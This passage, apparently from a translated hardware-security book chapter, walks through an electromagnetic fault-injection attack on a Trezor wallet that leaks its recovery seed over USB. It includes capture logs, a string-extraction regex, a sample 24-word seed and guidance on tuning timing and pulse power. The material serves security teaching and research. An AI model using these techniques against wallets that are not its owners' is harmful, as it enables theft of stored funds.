00, 2d, 00, 38, 00, 38, 00, 63, 00, 62, 00, 2d, 00, 34, 00, 31, 00, 33, 00, 36, 00, 2d, 00, 39, 00, 36, 00, 31, 00, 33, 00, 2d, 00, 35, 00, 63, 00, 38, 00, 65, 00, 31, 00, 30, 00, 39, 00, 64, 00, 38, 00, 65, 00, 66, 00, 35, 00, 7d, 00, 00, 00, 00, 00 ]
[      ]   0.000000 d=  0.000000 [   .0 +  0.017] [  3] Err - bad PID of 01
[      ]   0.000001 d=  0.000001 [   .0 +  1.200] [  1] ACK
[      ]   0.000029 d=  0.000028 [186   +  3.417] [  3] IN   : 6.0
[      ]   0.000032 d=  0.000003 [186   +  6.750] [ 67] DATA0: 92 00 00 00 00 01 05 00 01 00 88 00 00 00 07 00 00 00 2a 00 44 00 65 00 76 00 69 00 63 00 65 00 49 00 6e 00 74 00 65 00 72 00 66 00 61 00 63 00 65 00 47 00 55 00 49 00 44 00 73 00 00 00 50 00 52 11
[      ]   0.000078 d=  0.000046 [186   + 53.000] [  1] ACK
[      ]   0.000087 d=  0.000008 [186   + 61.417] [  3] IN   : 6.0
[      ]   0.000090 d=  0.000003 [186   + 64.750] [ 67] DATA1: 00 00 7b 00 30 00 32 00 36 00 33 00 62 00 35 00 31 00 32 00 2d 00 38 00 38 00 63 00 62 00 2d 00 34 00 31 00 33 00 36 00 2d 00 39 00 36 00 31 00 33 00 2d 00 35 00 63 00 38 00 65 00 31 00 30 00 2d a6
[      ]   0.000136 d=  0.000046 [186   +110.917] [  1] ACK
[      ]   0.000156 d=  0.000019 [186   +130.167] [  3] IN   : 6.0
[      ]   0.000159 d=  0.000003 [186   +133.500] [ 21] DATA0: 39 00 64 00 38 00 65 00 66 00 35 00 7d 00 00 00 00 00 e7 b2
[      ]   0.000174 d=  0.000016 [186   +149.000] [  1] ACK
[      ]   0.000183 d=  0.000009 [186   +157.583] [  3] OUT  : 6.0
[      ]   0.000186 d=  0.000003 [186   +161.000] [  3] DATA1: 00 00
[      ]   0.000190 d=  0.000003 [186   +164.250] [  1] ACK
```

列表 7-14：列出 7-11 和 7-12 的输出，前 64 个字节缺失

返回的数据只是黄金参考*去掉*前 64 个字节 1。看起来一个完整的 USB `IN`事务丢失了，这表明在这次故障注入过程中，整个 USB 数据传输被“跳过”了。由于这个传输没有标记为错误，USB 设备一定认为它应该只返回较短的数据长度。这样的故障很有趣，因为它证明了目标设备中程序流发生了变化，这值得注意，因为它表明我们的整体目标是合理的。再次注意到`bad PID error`，这是由于缺少 USB 数据包的第一部分；它只出现在第一个解码帧中，并不表示故障引起的错误。

### 确认转储

我们如何确认我们确实成功地进行了故障注入（并获得神奇的恢复种子）？最初，我们只是寻找一个“过长”的响应，并希望返回的内存区域包含恢复种子。因为秘密恢复种子是作为人类可读的字符串存储的，如果我们有二进制数据，我们只需对返回的内存运行 `strings -a`。由于我们在 Python 中实现攻击，我们可以使用 `re`（正则表达式）模块。假设我们有一个名为 `resp` 的数据列表（例如，来自列表 7-14），我们可以通过正则表达式简单地查找所有只包含字母或空格且长度为四个或更多的字符串，如列表 7-15 所示。

```
import re
re.findall(b"([a-zA-Z ]{4,})", bytearray(resp))
```

列表 7-15：一个“简单”的正则表达式，用于查找由四个或更多字母或空格组成的字符串

如果幸运的话，我们会得到返回数据中存在的字符串列表，如列表 7-16 所示。

```
b'WINUSB',
 b'TRZR',
 b'stor',
 b'exercise muscle tone skate lizard trigger hospital weapon volcano rigid veteran elite speak outer place logic old abandon aspect ski spare victory blast language',
 b'My Trezor',
 b'FjFS',
 b'XhYF',
 b'JFAF',
 b'FHDMD',
```

列表 7-16：恢复种子将是由 24 个英文单词组成的长字符串。

其中一个字符串应该是恢复种子，它将是由英文单词组成的长字符串。看到这个意味着攻击成功！

### 微调电磁脉冲

运行实验的最后一步是微调电磁脉冲本身，在这种情况下，意味着要在表面上方物理扫描线圈，同时调整故障宽度和功率级别。我们可以通过 PhyWhisperer-USB 脚本控制故障宽度，但功率级别是通过 ChipSHOUTER 串行接口调整的。更强大的故障很可能会重置设备，而较弱的故障可能没有任何效果。在这些极端之间，我们可能会看到一些迹象，表明我们正在注入错误，比如触发错误处理程序或导致无效的 USB 响应。触发错误处理程序表明我们可能没有完全重启设备，但对内部数据的操作产生了一些影响。特别是在 Trezor 上，LCD 屏幕会直观地显示设备何时进入错误处理程序，并报告错误类型。同样，USB 协议分析器在查看是否发生无效或异常结果时会很有帮助。找到一个偶尔会进入错误的区域通常是一个有用的起点，因为这表明该区域敏感，但又不至于过于激进，以至于每次都会导致内存或总线故障。

### 基于 USB 消息调整时序

成功的故障是指 USB 请求能够通过并带有完整长度的数据，成功绕过了长度检查。找到确切的时机需要一些实验。你将会由于内存错误、硬故障和重置而遭遇许多系统崩溃。使用硬件 USB 分析仪，你可以看到这些错误发生的位置，这有助于你理解故障时机，正如之前在[清单 7-14 中展示的那样。如果没有能够修改源代码来发现时机的“作弊”，理解这些错误发生的地点将变得至关重要；它们是我们理解时机的标志。

图 7-7 显示了另一张样本捕获图，这次使用的是 Total Phase Beagle USB 480。



图 7-7：一个简单的例子，USB 错误指示故障注入何时破坏程序流程

在图 7-7 的上几行显示了多个正确的 146 字节控制传输。第一部分是`SETUP`阶段。Trezor 已经对`SETUP`数据包进行了`ACK`确认，但随后从未发送后续数据。Trezor 进入了一个无限循环，跳转到多个中断处理程序之一进行错误检测。由于故障的时机被移位，观察到 USB 流量的不同效果：将故障时机提前通常会阻止`SETUP`数据包的`ACK`确认；将故障时机推后允许发送第一包后续数据，但不能发送第二包；而将故障时机推得更晚，则允许完整的 USB 事务执行，但随后导致设备崩溃。这些知识帮助我们理解了故障被插入 USB 代码的哪个部分，即使该故障依然是一个大锤子，导致设备重置，而不是预期的单一指令跳过。

如你所见，这为我们提供了一个故障时机窗口，用于使设备发生故障，而不需要使用我们之前的“作弊”方法。

## 总结

在本章中，我们介绍了如何获取未修改的比特币钱包并找到其中存储的恢复种子。我们利用目标的开源设计的一些特性提供了见解，尽管没有这些信息，攻击仍然可以成功。目标的开源设计意味着你也可以将其作为参考，调查你自己的产品，前提是你能够访问源代码。特别地，我们展示了如何使用附加到设备的调试器轻松模拟故障注入的效果。

找到一个成功的故障时机并不容易。之前的实验展示了在比较发生时，即我们希望插入故障的时机。由于这个时机存在抖动，因此没有单一的“正确”时机。除了时间外，还需要一些空间定位。如果你有一个计算机控制的 XY 扫描桌面，你也可以自动化搜索正确的位置。在这个例子中，我们只是使用了一个手动桌面，因为非常具体的定位似乎并不是必要的。

再次提醒，由于故障时序的性质，请小心选择一种经济的策略来搜索候选故障设置。你会很快发现，物理位置、故障时间、故障宽度和 EMFI 功率设置的组合意味着需要搜索大量的参数。找到缩小搜索范围的方法（例如，利用错误状态信息来理解有效区域）对保持问题空间的可处理性至关重要。在调查可能的影响时，记录“奇怪”的输出也是有用的，因为如果你只关注非常狭窄的“成功”范围，可能会错过其他有用的故障。

EMFI 故障注入的最终成功率较低。一旦故障得到正确调整，99.9%的故障会返回过短的结果，因此不会成功。然而，我们平均大约在一到两个小时内（调整位置和时间后）能够实现一次成功的故障注入，这使得它在实际中仍然是一个相对有用的攻击方法。

我们想强调的是，当你在真实设备上执行故障注入时，反向工程的一个重要部分就是要弄清楚可以引发故障的地方，比如 USB 转储、查看代码等等。我们希望前面的章节已经为你提供了一些准备，但你肯定会遇到这里没有涉及的挑战。像往常一样，尽量将挑战简化为最简单的实例，解决它们后，再将解决方案应用到整个设备上。

如果你尝试重新创建这个完整的攻击，你会发现它比我们在第六章中讨论的实验更加困难，这应该能让你体会到，尽管基本操作相似，实际设备上的故障攻击会更加困难。

现在来点完全不同的内容。在接下来的章节中，我们将转向旁路分析，并深入探讨我们在前几章中提到的内容：设备消耗的电力如何揭示设备正在执行的操作和数据。
